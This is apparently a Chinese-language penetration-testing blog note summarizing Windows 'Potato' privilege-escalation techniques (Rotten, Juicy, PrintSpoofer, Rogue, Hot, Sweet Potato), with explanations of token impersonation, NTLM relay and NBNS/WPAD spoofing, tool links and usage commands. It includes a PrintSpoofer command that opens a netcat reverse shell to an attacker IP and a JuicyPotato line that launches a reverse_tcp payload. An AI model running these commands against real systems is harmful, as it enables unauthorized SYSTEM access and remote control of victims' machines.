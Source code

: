 ```yaml
---
title: Potato家族提权
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-31T21:35:46+08:00
categories: 
- 渗透测试
- 内网体系建设
---
```


# Potato家族提权总结

potota家族提权，本质是通过操纵访问令牌，将账户服务提权到SYSTEM权限

利用 Potato 提权（除开 Hot Potato）的是前提是拥有 **SeImpersonatePrivilege** 或 **SeAssignPrimaryTokenPrivilege** 权限，以下用户拥有 **SeImpersonatePrivilege** 权限（而只有更高权限的账户比如 SYSTEM 才有 SeAssignPrimaryTokenPrivilege 权限）：

- 本地管理员账户(不包括管理员组普通账户)和本地服务账户
- 由 SCM 启动的服务

这两个权限允许用户在另一个用户的安全上下文中运行代码，甚至创建进程，所以通常是administrator提权到SYSTEM

## Rotten Potato

烂土豆，实现机制通过NTLM拦截身份认证请求，并伪造NT AUTHORITY\SYSTEM账户的访问令牌。

**NTML**

NTLM（Windows NT LAN Manager）是一种用于身份验证和安全通信的协议，常用于Windows操作系统中的网络通信。NTLM拦截是一种攻击技术，攻击者通过拦截和篡改NTLM身份验证流量来获取用户凭据。NTML认证可以被重放

大致流程如下:

1.通过GoGetInstanceFromIStorage API 将一个COM对象(BITS)加载到本地可控的端口，诱骗BITS对象以NT AUTHROITY\SYSTEM账户的身份向端口发起NTML认证

2. 借助本地RPC端口，对BITS对象的认证过程执行中间人攻击，调用相关API为NT AUTHROITY\SYSTEM账户在本地生成一个访问令牌
3. 通过该令牌创建新进程，获取SYSTEM权限

当获取到shell之后，可通过whoami /priv命令来查看当前账户获得的权限

![1](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/1.png)

当我们获取到目标的shell之后，上传利用脚本,执行该脚本

```
excute -Hc -f rottenpotato.exe
```

随即就能通过list_tokens -u看到SYSTEM用户的令牌

![2](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/2.png)

之后通过impersonate_token伪造令牌操作，即可以SYSTEM用户上线

https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

## Juicy Potato

原理与rottenpotato几乎相同，但是操作更加灵活，可以不采用默认端口，可以自定义COM对象，可以多版本服务了，具体的COM对象请参照

https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

根据目标的系统版本自行选择CLSID

```
JuicyPotato.exe -t t -p  C:\...\...\reverse_tcp.exe -l 6666 -n 135 -c  {CLSID}
```

对几个参数简单介绍

```
-t 指定要使用CreateProcessWithTokenW和CreateProcessAsUserA()中的那个函数创建进程
-p,指定要运行的进程
-l 指定COM对象加载的端口
-n 指定本地RPC服务端口，默认为135
-c 指定加载COM对象的CLSID
```

UknowSec修改后的JuicyPotato.exe,可直接在webshell环境中使用

```
.\JuicyPotato.exe_x64.exe -a whoami
```

## PrintSpoofer(Pipe Potato)

通过 Windows named pipe 的一个 API: `ImpersonateNamedPipeClient`来模拟高权限客户端的 token（还有类似的`ImpersonatedLoggedOnUser`，`RpcImpersonateClient`函数）利用打印机组件中存在的BUG，使高权限的服务能连接到测试人员创建的命名管道，以获取高权限用户的令牌来创建新进程

spoolsv.exe中有一个公开的RPC服务，内置函数pszLocalMachine，该函数需要传递参数例如\\\127.0.0.1

此时服务器访问\\127.0.0.1\pipe\spoolss,当传递\\\127.0.0.1/pipe/foo时，会将这一整串认为是主机名，会连接主机名加后缀的管道，从而攻击者获取刀token

**利用**

博文：https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

工具：https://github.com/itm4n/PrintSpoofer

直接获取一个SYSTEMshell 

```shell
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

或是获得一个反向shell

```
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

## Rogue Potato

同样是利用管道操作，利用的技巧也和Pipe Popato的技术相同，高版本 Windows DCOM 解析器不允许 OBJREF 中的 DUALSTRINGARRAY 字段指定端口号。为了绕过这个限制并能做本地令牌协商，作者在一台远程主机上的 135 端口做流量转发，将其转回受害者本机端口，并写了一个恶意 RPC OXID 解析器。

工具地址：https://github.com/antonioCoco/RoguePotato

博文：https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/

事实上，在旧的 *potato 漏洞利用中，窃取令牌的另一种方法是在专用端口上设置本地 RPC 侦听器，而不是伪造本地 NTLM 身份验证，RpcImpersonateClient（） 将完成剩下的工作。

## Hot Potato

利用 Windows 中的已知问题在默认配置（即 NTLM 中继（特别是 HTTP->SMB 中继）和 NBNS 欺骗）中获取本地权限提升。这种技术，我们可以将Windows工作站上的权限从最低级别提升到“NT AUTHORITY\SYSTEM”

### NBNS欺骗

NBNS 是一种广播 UDP 协议，用于 Windows 环境中常用的名称解析。当您（或Windows）执行DNS查找时，Windows首先将检查“主机”文件。如果不存在条目，它将尝试 DNS 查找。如果此操作失败，将执行 NBNS 查找。NBNS协议基本上只是询问本地广播域上的所有主机“谁知道主机XXX的IP地址？网络上的任何主机都可以自由响应。谁响应了该问题，谁就是XXX。攻击者往往监听广播消息，并应答自己是XXX

利用虚假响应，并用 NBNS 响应快速淹没目标主机（因为它是 UDP 协议）。一个复杂的问题是，NBNS 数据包中的 2 字节字段 TXID 必须在请求和响应中匹配，我们无法看到请求。我们可以通过快速泛洪并迭代所有 65536 个可能的值来克服

如果目标网络有我们要欺骗的目标主机的DNS记录，我们可以通过UDP端口耗尽的技术来强制系统上的所有DNS查找失败，从而使用NBNS

### Fake WPAD代理服务器

在Windows中，默认情况下，系统会访问`http://wpad/wpad.dat`来检测网络代理设置配置，借助欺骗 NBNS 响应的功能，我们可以将 NBNS 欺骗程序定位在 127.0.0.1。同时在127.0.0.1上构建http，将所有的WPAD流量都引导到本地

### HTTP ->SMB NTML Relay

HTTP->SMB 等跨协议攻击仍然可以工作,当有问题的 HTTP 请求源自高特权帐户时，例如，当它是来自 Windows Update 服务的请求时，此命令将以“NT AUTHORITY\SYSTEM”权限运行

### 利用

https://foxglovesecurity.com/2016/01/16/hot-potato/

工具地址：https://github.com/foxglovesec/Potato，https://github.com/Kevin-Robertson/Tater

影响版本:

win7,win10,win8,win server 2008,2012

## Sweet  Potato

COM/WinRM/Spoolsv的集合版，也就是Juicy/PrintSpoofer‘

工具地址：https://github.com/lengjibo/RedTeamTools/tree/master/windows/SweetPotato，https://github.com/CCob/SweetPotato/tree/master

## 参考链接

https://xz.aliyun.com/t/7776/#toc-7

https://www.geekby.site/2020/08/potato%E5%AE%B6%E6%97%8F%E6%8F%90%E6%9D%83%E5%88%86%E6%9E%90/#6-sweetpotato

